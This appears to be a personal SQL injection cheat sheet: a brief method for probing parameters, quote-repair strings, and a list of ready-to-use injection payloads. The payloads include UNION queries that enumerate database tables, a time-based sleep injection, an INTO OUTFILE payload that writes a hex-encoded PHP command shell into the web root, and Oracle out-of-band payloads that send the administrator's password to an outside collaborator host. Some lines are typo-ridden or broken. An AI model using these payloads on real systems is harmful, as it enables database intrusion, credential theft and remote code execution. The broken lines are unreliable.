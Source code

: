 # SQLI METHOD
1. Find entry Points e.g. params cookies etc
2. Find valid and invalid values
3. Attempt to break with ' or "
4. If response changes repair the SQL querry
5. If repair diff from broken querry may have SQLI 

## How to Repair:
' >> ' '
' >> '||'
' >> '+' or '%2b'
' >>' AND '1'='1
' >> ' -- -
Repairs for Int
'will break >>Syntax evenif Repaired
just try (Start with Space):
 -- -
 AND 1=1 
 AND 1=1 -- -
 

## INJECTS
'+OR+1=1--

=1' OR '1'='1
 
=1' OR '1'='1'--+

=1'+UNION+SLECT+1,2,3,4,5+FROM+TABLE    ?!?!?

'XOR(if(now()=sysdate(),sleep(5*5),0))OR'

value' INTO OUTFILE '/var/www/html/shelll.php' LINES TERMINATED BY 'union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -

 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
 union select "1 order by 1-- -",2,3 from information_schema.tables where table_schema=database()

--OutOfBound injection--
Oracle
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
